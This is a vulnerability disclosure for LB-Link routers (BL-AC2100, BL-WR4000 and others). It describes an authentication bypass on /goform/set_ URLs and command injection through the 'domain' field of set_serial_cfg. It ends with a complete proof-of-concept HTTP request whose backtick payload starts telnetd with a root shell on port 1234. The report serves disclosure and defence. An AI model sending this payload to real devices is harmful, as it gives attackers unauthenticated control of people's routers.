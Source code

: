 # Information

**Vendor of the products:** Shenzhen Bilian Electronic Limited Co., Ltd（LB-Link）

**Vendor's website:** [必联（LB-LINK）官方网站](https://www.b-link.net.cn/)

**Reported by:** Wang JinShuai(3265296623@qq.com)，Tang BingCheng(2640807724@qq.com)

**Affected products:** BL-AC2100 \ BL-WR4000 \ BL-WR9000 \ BL-AC1900 \ BL-X26 \ BL-LTE300

**Affected firmware version:**   BL-AC2100_AZ3 V1.0.4 \ BL-WR4000 v2.5.0 \ BL-WR9000_AE4 v2.4.9 \ BL-AC1900_AZ2 v1.0.2 \ BL-X26_AC8 v1.2.8 \ BL-LTE300_DA4 V1.2.3

**Firmware download address:** [下载中心_必联（LB-LINK）官方网站](https://www.b-link.net.cn/downloads_16.html)

# Overview

The LB-Link routers, including the BL-AC2100_AZ3 V1.0.4, BL-WR4000 v2.5.0, BL-WR9000_AE4 v2.4.9, BL-AC1900_AZ2 v1.0.2, BL-X26_AC8 v1.2.8, and BL-LTE300_DA4 V1.2.3 models, are vulnerable to unauthorized command injection. Attackers can exploit this vulnerability by accessing the /goform/set_serial_cfg interface to gain the highest level of device privileges without authorization, enabling them to remotely execute malicious commands.

# Vulnerability details

By analyzing the binary file `/bin/goahead` of the network device that provides web services, an unauthorized command injection vulnerability was discovered. In the authentication function `websSecurityHandler`, when the URL prefix is `/goform/set_`, the function directly returns 0, allowing unauthorized access whenever the URL prefix is `/goform/set_`.

![image-20250812200309308](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508122007677.png)

Further analysis of the libc library `libshare-0.0.26.so` revealed a command injection vulnerability in the `bs_SetSerial` function.

The `bs_SetSerial` function is invoked within the `set_serial_cfg` function in the `/bin/goahead` file.

![image-20250812200319638](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508122007347.png)

In the function corresponding to `set_serial_cfg`, the values of user input fields, such as `domain`, are directly passed to the `bs_SetSerial` function through a structure.

![image-20250812195846287](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508121958456.png) 

![image-20250812195910872](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508121959918.png)In the `bs_SetSerial` function, the values of user input fields, such as `domain`, are assigned to `v14`, then through `snprintf`, they are assigned to the variable `v34`, which is eventually passed to the `bl_do_system` function.

![image-20250812200123556](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508122007161.png) 

!![image-20250812200141675](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508122007195.png) 

![image-20250812200340860](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508122007334.png) 

The final `bl_do_system` function passes the parameters to the `system` function. Since there is no strict parameter validation during the transfer of user-supplied content, an attacker can construct a system command using backticks, such as `telnetd -l /bin/sh -p 1234`, to start the router's `telnetd` service. This allows the attacker to gain the highest level of device privileges and execute arbitrary commands.

![image-20250812200353408](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508122007541.png)

# POC

```
POST /goform/set_serial_cfg HTTP/1.1
Host: 192.168.16.1
Content-Length: 79
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://192.168.16.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.16.1/login.asp
Accept-Encoding: gzip, deflate, br
Cookie: platform=0
Connection: keep-alive

type=setserialinfo&ser_status=1&network=UDP&domain=`telnetd -l /bin/sh -p 1234`
```

# Effect Demonstration

![image-20250812200520027](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508122006512.png)

![image-20250812200532135](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508122006613.png)

![image-20250812200546078](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508122007427.png)
